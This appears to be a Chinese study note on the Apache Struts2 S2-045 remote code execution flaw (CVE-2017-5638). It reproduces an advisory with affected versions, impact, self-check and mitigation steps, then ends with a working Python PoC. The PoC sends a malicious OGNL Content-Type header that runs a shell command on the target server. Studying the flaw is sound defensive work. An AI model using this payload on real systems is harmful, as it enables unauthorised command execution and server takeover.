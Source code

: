 Struts-045学习
=============

关于Apache Struts2（S2-045）漏洞情况的通报
近日，国家信息安全漏洞库（CNNVD）收到关于Apache Struts2 （S2-045）远程代码执行漏洞（CNNVD-201703-152）的情况报送。由于该漏洞影响范围广，危害级别高，国家信息安全漏洞库（CNNVD）对此进行了跟踪分析，情况如下：

一、 漏洞简介
--------
Apache Struts是美国阿帕奇（Apache）软件基金会负责维护的一个开源项目，是一套用于创建企业级Java Web 应用的开源MVC框架，主要提供两个版本框架产品： Struts 1和Struts 2。  

ApacheStruts 2.3.5 – 2.3.31版本及2.5 – 2.5.10版本存在远程代码执行漏洞（CNNVD-201703-152 ，CVE-2017-5638）。该漏洞是由于上传功能的异常处理函数没有正确处理用户输入的错误信息。导致远程攻击者可通过发送恶意的数据包，利用该漏洞在受影响服务器上执行任意命令。    

二、 漏洞危害
--------
攻击者可通过发送恶意构造的HTTP数据包利用该漏洞，在受影响服务器上执行系统命令，进一步可完全控制该服务器，造成拒绝服务、数据泄露、网站造篡改等影响。由于该漏洞利用无需任何前置条件（如开启dmi ，debug等功能）以及启用任何插件，因此漏洞危害较为严重。

三、 修复措施
--------
目前，Apache官方已针对该漏洞发布安全公告。请受影响用户及时检查是否受该漏洞影响。

>自查方式
用户可查看web目录下/WEB-INF/lib/目录下的struts-core.x.x.jar 文件，如果这个版本在Struts2.3.5 到 Struts2.3.31 以及 Struts2.5 到 Struts2.5.10之间则存在漏洞。

>升级修复
受影响用户可升级版本至Apache Struts 2.3.32 或 Apache Struts 2.5.10.1以消除漏洞影响。

>临时缓解
如用户不方便升级，可采取如下临时解决方案：
l  删除commons-fileupload-x.x.x.jar文件（会造成上传功能不可用）。


四、PoC示例
--------

>requests库学习
* Requests 是用Python语言编写，基于 urllib，采用 Apache2 Licensed 开源协议的 HTTP 库。它比 urllib 更加方便，可以节约我们大量的工作，完全满足 HTTP 测试需求。Requests 的哲学是以 PEP 20 的习语为中心开发的，所以它比 urllib 更加 Pythoner。更重要的一点是它支持 Python3 哦！
* Requests 使用的是 urllib3，因此继承了它的所有特性。Requests 支持 HTTP 连接保持和连接池，支持使用 cookie 保持会话，支持文件上传，支持自动确定响应内容的编码，支持国际化的 URL 和 POST 数据自动编码。现代、国际化、人性化。

>sys库学习
* Python的系统模块
包括sys, os, glob, socket, threading, _thread, queue, time, timeit, subprocess, multiprocessing, signal, select, shutil, tempfile等。
大多数系统级接口集中在：sys和os两个模块。

>下面是测试PoC脚本
```
/usr/bin/env python
# encoding:utf-8
import urllib2
import sys
from poster.encode import multipart_encode
from poster.streaminghttp import register_openers
 
def poc():
    register_openers()
    datagen, header = multipart_encode({"image1": open("tmp.txt", "rb")})
    header["User-Agent"]="Mozilla/5.0 (Macintosh; Intel Mac OS X 10_12_3) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/56.0.2924.87 Safari/537.36"
    header["Content-Type"]="%{(#nike='multipart/form-data').(#dm=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS).(#_memberAccess?(#_memberAccess=#dm):((#container=#context['com.opensymphony.xwork2.ActionContext.container']).(#ognlUtil=#container.getInstance(@com.opensymphony.xwork2.ognl.OgnlUtil@class)).(#ognlUtil.getExcludedPackageNames().clear()).(#ognlUtil.getExcludedClasses().clear()).(#context.setMemberAccess(#dm)))).(#cmd='ifconfig').(#iswin=(@java.lang.System@getProperty('os.name').toLowerCase().contains('win'))).(#cmds=(#iswin?{'cmd.exe','/c',#cmd}:{'/bin/bash','-c',#cmd})).(#p=new java.lang.ProcessBuilder(#cmds)).(#p.redirectErrorStream(true)).(#process=#p.start()).(#ros=(@org.apache.struts2.ServletActionContext@getResponse().getOutputStream())).(@org.apache.commons.io.IOUtils@copy(#process.getInputStream(),#ros)).(#ros.flush())}"
    request = urllib2.Request(str(sys.argv[1]),datagen,headers=header)
    response = urllib2.urlopen(request)
    print response.read()

     
poc()
```
